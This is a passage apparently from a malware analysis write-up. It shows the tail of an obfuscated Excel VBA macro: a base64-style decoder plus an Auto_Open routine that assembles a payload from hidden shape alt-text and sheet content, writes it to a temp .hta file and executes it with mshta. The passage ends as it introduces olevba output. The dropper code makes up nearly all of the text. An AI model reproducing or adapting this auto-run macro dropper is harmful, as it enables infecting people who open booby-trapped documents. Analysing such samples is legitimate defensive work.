 ```vba
    Next lTemp

    For lTemp = 0 To 63
        lPowers6(lTemp) = lTemp * cl2Exp6
        lPowers12(lTemp) = lTemp * cl2Exp12
        lPowers18(lTemp) = lTemp * cl2Exp18
    Next lTemp

    bIn = StrConv(sString, vbFromUnicode)
    ReDim bOut((((UBound(bIn) + 1) \ 4) * 3) - 1)

    For lChar = 0 To UBound(bIn) Step 4
        lQuad = lPowers18(bTrans(bIn(lChar))) + lPowers12(bTrans(bIn(lChar + 1))) + _
                lPowers6(bTrans(bIn(lChar + 2))) + bTrans(bIn(lChar + 3))
        lTemp = lQuad And clHighMask
        bOut(lPos) = lTemp \ cl2Exp16
        lTemp = lQuad And clMidMask
        bOut(lPos + 1) = lTemp \ cl2Exp8
        bOut(lPos + 2) = lQuad And clLowMask
        lPos = lPos + 3
    Next lChar

    sOut = StrConv(bOut, vbUnicode)
    If iPad Then sOut = Left$(sOut, Len(sOut) - iPad)
    hdYJNJmt = sOut

End Function

Sub Auto_Open()
    Dim fHdswUyK, GgyYKuJh
    Application.Goto ("JLprrpFr")
    GgyYKuJh = Environ("temp") & "\LwTHLrGh.hta"
    
    Open GgyYKuJh For Output As #1
    Write #1, hdYJNJmt(ActiveSheet.Shapes(2).AlternativeText & UZdcUQeJ.yTJtzjKX & Selection)
    Close #1
    
    fHdswUyK = "msh" & "ta " & GgyYKuJh
    x = Shell(fHdswUyK, 1)
End Sub
```

Damn, what a long source code!

And here is the analysis output of olevba
